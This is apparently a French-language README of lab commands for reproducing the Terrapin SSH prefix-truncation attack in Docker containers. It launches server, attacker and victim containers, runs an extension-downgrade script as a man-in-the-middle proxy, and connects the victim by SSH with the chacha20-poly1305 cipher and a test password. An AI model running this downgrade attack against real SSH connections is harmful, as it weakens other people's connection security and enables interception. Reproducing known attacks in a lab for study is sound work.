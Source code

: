 # commandes

## Démarage

### lancement des conteneurs :
`docker-compose up -d`
`docker-compose ps`

### récupération des ip du serveur et de l'attaquant (pour lancer le script)
`docker inspect -f '{{range.NetworkSettings.Networks}}{{.IPAddress}}{{end}}' terrapin-attack_serveur_1`
`docker inspect -f '{{range.NetworkSettings.Networks}}{{.IPAddress}}{{end}}' terrapin-attack_attaquant_1`

## Lancement de 3 terminal diff

### terminal server
`docker logs terrapin-attack_serveur_1 -f`

### terminal attaquant
`docker attach terrapin-attack_serveur_1`
```
python3 ext-downgrade/ext_downgrade_chacha20_poly1305.py \
    --proxy-ip {ip_attaquant} \
    --server-ip {ip_serveur}
```

### terminal victime
`docker attach terrapin-attack_victime_1`
`PATH="$PATH:/install/bin/"`
`ssh victim@172.24.0.2 -vvv -o Ciphers=chacha20-poly1305@openssh.com` (passwd is 'secret')

